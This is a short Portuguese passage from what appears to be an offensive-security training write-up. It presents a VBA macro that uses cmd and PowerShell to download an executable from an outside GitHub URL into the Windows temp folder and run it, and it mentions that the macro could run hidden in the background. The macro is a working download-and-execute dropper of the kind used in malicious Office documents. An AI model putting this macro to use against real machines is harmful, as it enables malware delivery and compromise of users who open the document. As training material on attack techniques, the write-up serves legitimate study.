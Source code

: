 Esta task também não tem segredo, uma vez que conseguimos executar comandos no `cmd` e já fizemos um script em `PowerShell` anteriormente para realizar a mesma função, só precisamos juntar os dois.

```visualbasic
Sub Download_exec()
pid = Shell("cmd.exe /c PowerShell -c (New-Object System.Net.WebClient).DownloadFile('https://github.com/h41stur/dojo/blob/main/semana_04/client.exe?raw=true','C:\Windows\Temp\client.exe')", 1)
pid2 = Shell("cmd.exe /c PowerShell -c Start-Process ('C:\Windows\Temp\client.exe')", 1)
End Sub
```

Ao executar a macro, temos uma rápida abertura de duas telas do cmd (que também podem ser programadas para rodar em bacvkground).

<center><img src="/img/std/dojo/dojo-79.png"></center>

Ao checarmos o diretório temporário do Windows, podemos ver que o arquivo boi baixado.

<center><img src="/img/std/dojo/dojo-80.png"></center>

